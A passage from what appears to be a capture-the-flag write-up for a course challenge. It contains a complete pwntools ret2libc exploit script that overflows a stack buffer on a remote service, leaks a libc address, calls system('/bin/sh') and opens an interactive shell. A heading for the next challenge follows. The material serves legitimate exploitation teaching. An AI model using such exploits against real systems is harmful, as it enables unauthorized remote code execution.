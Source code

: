 2. We have leaked the libc address and returned to the main function. We start to get shell by exploiting the foo function again to return to system function with the string "/bin/sh" in libc. 

```
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher

sh = remote("cityf01.cs.cityu.edu.hk", 30011)
#sh = process('./stackof')

ret2libc = ELF('./stackof')

puts_plt = ret2libc.plt['puts']
libc_start_main_got = ret2libc.got['__libc_start_main']
main = ret2libc.symbols['main']

print(hex(puts_plt), hex(libc_start_main_got), hex(main))

#"leak libc_start_main_got addr and return to main again"
payload = flat([b'A' * 162, p32(puts_plt), p32(main), p32(libc_start_main_got)])

#gdb.attach(sh, "break *0x804868d")
sh.sendlineafter('Can you find the shell?', payload)

#"leak the libc addr"
content = sh.recv()

libc_start_main_addr = u32(content[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print(hex(system_addr), hex(libc_start_main_addr))

#"get shell"
payload = flat([b'A' * 162, system_addr, 0x12345678, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

## welcome2

This binary is 64-bit and has enabled PIE.
![Tux, the Linux mascot](Offical_WP.assets/welcome2.png)
